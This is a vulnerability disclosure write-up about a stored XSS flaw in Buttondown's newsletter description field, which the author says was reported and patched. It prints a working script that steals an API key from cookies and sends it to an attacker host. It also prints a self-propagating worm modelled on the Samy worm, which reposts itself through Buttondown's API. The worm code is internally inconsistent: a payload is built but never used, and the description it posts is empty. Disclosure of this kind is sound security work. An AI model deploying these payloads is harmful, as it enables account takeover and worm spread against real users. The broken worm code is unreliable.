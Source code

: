```yaml
---
pretext: Article
title: Buttondown's XSS & CSRF Problem
subtitle: Aug 2023

inline: false
---
```


# Introduction

In this article, I will walk you through a vulnerability I discovered in Buttondown, a popular email newsletter service. The vulnerability involves a combination of Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF) attacks, which can potentially allow an attacker to gain unauthorized access to a user's account and perform actions on their behalf.


===
===

## Understanding the Vulnerability

The issue arises from the fact that the description box in the basic settings tab allows users to insert HTML without properly sanitizing the input. This means that malicious scripts can be injected into the description box. If a user who is logged into Buttondown views a newsletter containing such a script, their API key and other sensitive details stored in cookies can be exfiltrated.

===
===

## Exploitation Scenario

An attacker can craft a script to extract the API key from the cookies and send it to a remote server. Here is an example of such a script:

When a logged-in user views a newsletter containing this script, their API key will be sent to the attacker's server. The attacker can then use this API key to perform actions on the user's behalf, such as sending newsletters, accessing subscriber lists, or modifying account settings.

===

```js
<script>
fetch(
    'https://exfil.this.data/'
    + document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1],
    { mode: 'no-cors' }
);
</script>
```

===

## Impact

This vulnerability poses a serious risk to Buttondown users who are logged in and view newsletters containing malicious scripts. An attacker could potentially take over user accounts, access sensitive data, and perform unauthorized actions.

===
===

## Self-Replicating Exploit

One of the most concerning aspects of this vulnerability is its potential to become a self-replicating exploit, similar to the infamous MySpace Samy worm. The API allows users to add arbitrary data to the description of a blog post, which means that an attacker could inject a script that not only exfiltrates data but also propagates itself to other users.

Here is an example of how such a script could look:

===

```html
<script>
// Extract the API key from the cookies
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];

const payload = `
<script>
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: '<script>'
            + document.currentScript.innerHTML
            + '</script>'
    })
});
</script>
`

// Exfiltrate the API key to the attacker's server
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });

// Propagate the exploit by adding
// the malicious script to the target's description
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: ``
    })
});
</script>
```
===
I reported this vulnerability through Buttondown's responsible disclosure program, and they have since patched the issue. They were quick, friendly and professional in their response, and I appreciate their commitment to security.

===
